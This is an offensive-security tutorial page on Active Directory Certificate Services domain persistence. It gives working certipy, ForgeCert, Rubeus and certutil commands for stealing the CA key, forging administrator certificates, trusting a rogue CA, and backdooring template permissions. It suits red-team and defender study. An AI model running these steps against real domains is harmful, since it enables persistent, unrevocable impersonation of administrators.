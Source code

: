 # AD CS Domain Persistence (DPERSIST)

## Tools: ForgeCert https://github.com/GhostPack/ForgeCert

# DPERSIST1 - Forging Certificates with Stolen CA Certificates

## How can you tell that a certificate is a CA certificate?

### It can be determined that a certificate is a CA certificate if several conditions are met:

#### 1) The certificate is stored on the CA server, with its private key secured by the machine's DPAPI, or by hardware such as a TPM/HSM if the operating system supports it.

#### 2) Both the Issuer and Subject fields of the certificate match the distinguished name of the CA.

#### 3) A "CA Version" extension is present in the CA certificates exclusively.

#### 4) The certificate lacks Extended Key Usage (EKU) fields.

### To extract the private key of this certificate, the certsrv.msc tool on the CA server is the supported method via the built-in GUI. Nonetheless, this certificate does not differ from others stored within the system; thus, methods such as the THEFT2 technique can be applied for extraction.

### The certificate and private key can also be obtained using Certipy with the following command:

 - certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup

### Upon acquiring the CA certificate and its private key in .pfx format, tools like ForgeCert can be utilized to generate valid certificates:

 - ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123! (Generating a new certificate with ForgeCert)

 - certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL' (Generating a new certificate with certipy

 - Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123! (Authenticating using the new certificate with Rubeus)

 - certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128 (Authenticating using the new certificate with certipy)

## TIP: The user targeted for certificate forgery must be active and capable of authenticating in Active Directory for the process to succeed. Forging a certificate for special accounts like krbtgt is ineffective.

### This forged certificate will be valid until the end date specified and as long as the root CA certificate is valid (usually from 5 to 10+ years). It's also valid for machines, so combined with S4U2Self, an attacker can maintain persistence on any domain machine for as long as the CA certificate is valid. Moreover, the certificates generated with this method cannot be revoked as CA is not aware of them.

# DPERSIST2 - Trusting Rogue CA Certificates

### The NTAuthCertificates object is defined to contain one or more CA certificates within its cacertificate attribute, which Active Directory (AD) utilizes. The verification process by the domain controller involves checking the NTAuthCertificates object for an entry matching the CA specified in the Issuer field of the authenticating certificate. Authentication proceeds if a match is found.

### A self-signed CA certificate can be added to the NTAuthCertificates object by an attacker, provided they have control over this AD object. Normally, only members of the Enterprise Admin group, along with Domain Admins or Administrators in the forest root’s domain, are granted permission to modify this object. They can edit the NTAuthCertificates object using certutil.exe with the command certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126, or by employing the PKI Health Tool.

### This capability is especially relevant when used in conjunction with a previously outlined method involving ForgeCert to dynamically generate certificates.

# DPERSIST3 - Malicious Misconfiguration

### Opportunities for persistence through security descriptor modifications of AD CS components are plentiful. Modifications described in the "Domain Escalation" section can be maliciously implemented by an attacker with elevated access. This includes the addition of "control rights" (e.g., WriteOwner/WriteDACL/etc.) to sensitive components such as:

#### 1) The CA server’s AD computer object

#### 2) The CA server’s RPC/DCOM server

#### 3) Any descendant AD object or container in CN=Public Key Services,CN=Services,CN=Configuration,DC=DOMAIN,DC=COM (for instance, the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, etc.)

#### 4) AD groups delegated rights to control AD CS by default or by the organization (such as the built-in Cert Publishers group and any of its members)

### An example of malicious implementation would involve an attacker, who has elevated permissions in the domain, adding the WriteOwner permission to the default User certificate template, with the attacker being the principal for the right. To exploit this, the attacker would first change the ownership of the User template to themselves. Following this, the mspki-certificate-name-flag would be set to 1 on the template to enable ENROLLEE_SUPPLIES_SUBJECT, allowing a user to provide a Subject Alternative Name in the request. Subsequently, the attacker could enroll using the template, choosing a domain administrator name as an alternative name, and utilize the acquired certificate for authentication as the DA.

